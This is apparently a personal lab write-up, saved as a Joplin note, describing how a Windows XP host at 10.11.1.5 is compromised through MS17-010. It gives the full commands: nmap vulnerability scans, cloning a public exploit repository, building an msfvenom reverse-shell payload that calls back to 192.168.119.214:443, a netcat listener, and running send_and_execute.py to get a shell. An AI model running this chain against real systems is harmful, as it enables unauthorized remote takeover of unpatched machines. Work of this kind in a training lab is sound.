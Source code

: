 Getting a Foothold

Getting a Foothold

# Works

1. Run the vuln scripts on NMAP. Either of the following 2 commands listed MS17-010 as one of the high risk vulns.
No ping scan
`sudo nmap -Pn -A -p- -sV --script default,safe,auth,vuln --max-retries 4 10.11.1.5`
Stealth scan
`sudo nmap -sS -A -p- -sV --script default,safe,auth,vuln --max-retries 4 10.11.1.5`
![a178b4e5d725f921e12987bbb740184e.png](:/d353d0bbcc894a19afa97f51a33ea2d2)

2. The above scripts ran smb-os-discovery script, and revealed that the OS = Windows XP (Lan Manager)

3. Searchsploit does not offer any exploits for MS17-010 using Windows XP. The Google search string: `ms17-010 windows xp` showed the helpful link that led to the next steps.
![4950f409aed33bb11dcb03c680819ecc.png](:/d88460f566f043e1a66458bc4bb47560)

4. Clone this repo
`git clone https://github.com/helviojunior/MS17-010.git`
![eedbdbc2e4590b74c80830718b632652.png](:/a49574f92c8d47db8d30f1266d1491c5)

5. Generate shellcode
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.214 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o rev_192.168.119.214_443.exe`
![e2f8f796e1f731bc2df59d82a376ff56.png](:/9d60394eafcf452d845604e925588a4d)

6. Start a netcat listener
`sudo nc -lvnp 443`
![5763f05c332a51b46861bbb46d9c3a56.png](:/b76027288904486aa11ae5dd002edc15)

7. Run send_and_execute.py
`python ~/gitWorkspace/tools/MS17-010/send_and_execute.py 10.11.1.5 rev_192.168.119.214_443.exe`
![48b23e9d396c6ad0e31fe1bafcf56be5.png](:/ccc9d1e96e3345d4965b1c1a7c98f3d9)

8. Notice that we now have a shell
![c56d54ba4c32c4564b16c3efb6376466.png](:/ec675e92418445e9902e38797e0c1847)










 

id: b9dfaee7c78647e0925783ec6d0bb9b6
parent_id: cf66c161abb04b6191b85ee6d930456b
created_time: 2020-08-26T09:02:28.183Z
updated_time: 2020-08-26T18:14:15.452Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-08-26T09:02:28.183Z
user_updated_time: 2020-08-26T18:14:15.452Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1